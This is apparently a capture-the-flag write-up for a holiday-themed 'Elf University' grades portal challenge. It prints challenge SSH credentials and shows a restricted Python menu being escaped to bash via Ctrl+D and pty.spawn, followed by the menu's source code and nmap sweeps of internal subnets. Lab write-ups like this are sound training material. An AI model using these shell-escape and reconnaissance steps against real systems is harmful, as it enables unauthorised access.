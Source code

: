 # Initial

Access to the site:

![Access](/img/obj8-2/img1.png)

```text
username: nfjhsxqtcz
password: Anuakviba@

ssh nfjhsxqtcz@grades.elfu.org -p 2222
```

Connecting via SSH as it instructs you gives you access to a menu:

```text
===================================================
=      Elf University Student Grades Portal       =
=          (Reverts Everyday 12am EST)            =
===================================================
1. Print Current Courses/Grades.
e. Exit
: 
```

If I type `1` to read my current courses and grades, it refreshes the screen and displays:

```text
0  Shortname                  Description  Grade
================================================
1    NPAR101  North Pole Art Appreciation     C+
2    REIH201           Reindeer Husbandry     C 
3    WHOL201     World Holiday Literature     C+
4    CACH301              Candy Chemistry     C+
Press Enter to continue...

```

Man, I didn't realize what a C student I was. Especially disappointing in the Candy Chemistry category. I really like candy.

After a fair a bit of hemming and hawing over how much of a C student I was, I discovered that this particular menu situation was simply a python intepreter. If I hit ++ctrl+c++ it would complain that I could exit by typing in `exit`. So it traps the SIGKILL signal, but what about the EOF statement? What happens if I hit ++ctrl+d++? Well of course it kills the application but leaves me in an interactive python prompt!

```sh
===================================================
=      Elf University Student Grades Portal       =
=          (Reverts Everyday 12am EST)            =
===================================================
1. Print Current Courses/Grades.
e. Exit
: Traceback (most recent call last):
  File "/opt/grading_system", line 41, in <module>
    main()
  File "/opt/grading_system", line 26, in main
    a = input(": ").lower().strip()
EOFError
>>> 
```

So, to dump to a shell:

```python
import pty
pty.spawn("/bin/bash")
```

Just for funsies, I snagged the code used to create the interactive prompt:

```python
#!/usr/bin/python3 -i
# Created by:
# Alabaster Snowball
import signal
import os
import grades
from pandas import *
from termcolor import colored, cprint

def signal_handler(sig, frame):
    print("You may only type 'exit' to leave the exam!")

signal.signal(signal.SIGINT, signal_handler)
signal.signal(signal.SIGTSTP, signal_handler)

def main():
    os.umask(7)
    os.system('/usr/bin/clear')
    while True:
        cprint("===================================================", "cyan")
        cprint("=      Elf University Student Grades Portal       =", "cyan")
        cprint("=          (Reverts Everyday 12am EST)            =", "cyan")
        cprint("===================================================", "cyan")
        cprint("1. Print Current Courses/Grades.", "green")
        cprint("e. Exit", "green")
        a = input(": ").lower().strip()
        if a.startswith("1"):
            os.system('/usr/bin/clear')
            user_grades = grades.get_grades()
            formatted_user_grades = [[user_grades[key][0], user_grades[key][1], user_grades[key][2]] for key in user_grades.keys()]
            formatted_user_grades.insert(0,["Shortname","Description","Grade"])
            lines = str(DataFrame(formatted_user_grades)).split('\n')[1:]
            lines.insert(1,"="* len(lines[0]))
            cprint('\n'.join(lines), 'yellow')
            a = input("Press Enter to continue...").lower().strip()
        elif a.startswith("e"):
            os.kill(os.getpid(), 9)
        os.system('/usr/bin/clear')

if __name__ == "__main__":
    main()
```

And since it's calling the `grades` module, looking through the OS I was able to find the module itself in `/usr/lib/python3.8/grades.py`. Here's the source code!

```python
#!/usr/bin/env python3
import getpass
import os
import random
import ast

def get_grades():
    possible_class_titles = [
        ['REIH','Reindeer Husbandry'],
        ['SLPE','Sleigh Propulsion Engineering'],
        ['GEOG','Geometry of Gift-Wrapping'],
        ['CACH','Candy Chemistry'],
        ['WHOL','World Holiday Literature'],
        ['NPAR','North Pole Art Appreciation'],
        ['ELFS','Elf Studies'],
        ['ESCV','Escape vim'],
        ['PRDL','Present Delivery Logistics'],
        ['NNLM','Naughty Nice List Mathematics']
    ]
    possible_class_numbers = ['101','201','301']
    possible_grades = ['F','D','C','B','A']
    possible_modifiers = ['-','+',' ']
    home = f"/home/{getpass.getuser()}"
    gfile = f"{home}/.grades"
    final_grades = {}
    for i in range(random.randrange(4,6)):
        c = random.choice(possible_class_titles)
        while c[0] in final_grades:
            c = random.choice(possible_class_titles)
        final_grades[ c[0] ] = [c[0] + random.choice(possible_class_numbers), c[1], (random.choice(possible_grades) + random.choice(possible_modifiers)).replace("F-",'F ').replace("F+",'F ')]
        # Shortname, Descr, Grade
    if os.path.isfile(gfile):
        try:
            final_grades = ast.literal_eval(open(gfile,'r').read())
        except:
            pass
    else:
        try:
            gf = open(gfile,'w')
            gf.write(repr(final_grades))
            gf.close()
        except:
            pass
    return final_grades
```

Just some fun 4th-wall-breaking stuff. Anyway, onto the challenge!

Noticed that according to `/etc/shells`, `powershell` is a valid shell.

Routing tables shows a particularly interesting set of routes:

```sh
PS /home/nfjhsxqtcz> route -n
Kernel IP routing table
Destination     Gateway         Genmask         Flags Metric Ref    Use Iface
0.0.0.0         172.17.0.1      0.0.0.0         UG    0      0        0 eth0
10.128.1.0      172.17.0.1      255.255.255.0   UG    0      0        0 eth0
10.128.2.0      172.17.0.1      255.255.255.0   UG    0      0        0 eth0
10.128.3.0      172.17.0.1      255.255.255.0   UG    0      0        0 eth0
172.17.0.0      0.0.0.0         255.255.0.0     U     0      0        0 eth0
```

Based on the nmap scans, I discovered the following:

```
Scanning for 10.128.1.0/24

up:
10.128.1.4 
```

```text
Scanning for 10.128.2.0/24

up:
Nmap scan report for 10.128.2.3
Host is up (0.00046s latency).
Nmap scan report for 10.128.2.4
Host is up (0.00039s latency).
Nmap scan report for 10.128.2.5
Host is up (0.00035s latency).
Nmap scan report for 10.128.2.6
Host is up (0.00031s latency).
Nmap scan report for 10.128.2.7
Host is up (0.00028s latency).
Nmap scan report for 10.128.2.8
Host is up (0.00023s latency).
Nmap scan report for 10.128.2.9
Host is up (0.00018s latency).
Nmap scan report for 10.128.2.10
Host is up (0.00013s latency).
Nmap scan report for 10.128.2.11
Host is up (0.000079s latency).
Nmap scan report for 10.128.2.12
Host is up (0.0010s latency).
Nmap scan report for 10.128.2.13
Host is up (0.00094s latency).

 << snipped in the interest of space >>

Nmap scan report for 10.128.2.200
Host is up (0.00100s latency).
Nmap scan report for 10.128.2.201
Host is up (0.00095s latency).
Nmap scan report for 10.128.2.202
Host is up (0.00088s latency).
```

```text
Scanning for 10.128.3.0/24

up:
Nmap scan report for 10.128.3.25
Host is up (0.00042s latency).
Nmap scan report for 10.128.3.26
Host is up (0.00035s latency).
Nmap scan report for 10.128.3.27
Host is up (0.00031s latency).
Nmap scan report for 10.128.3.28
Host is up (0.00061s latency).
Nmap scan report for 10.128.3.29
Host is up (0.00046s latency).
Nmap scan report for 10.128.3.30
Host is up (0.00041s latency).
Nmap scan report for 10.128.3.31
Host is up (0.00037s latency).
Nmap scan report for 10.128.3.32
Host is up (0.00033s latency).
Nmap scan report for 10.128.3.33
Host is up (0.00029s latency).
Nmap scan report for 10.128.3.34
Host is up (0.00023s latency).

  << snipped in the interest of space >>

Nmap scan report for 10.128.3.57
Host is up (0.0015s latency).
Nmap scan report for 10.128.3.58
Host is up (0.0015s latency).
Nmap scan report for 10.128.3.59
Host is up (0.0014s latency).
Nmap scan report for 10.128.3.60
Host is up (0.0013s latency).
```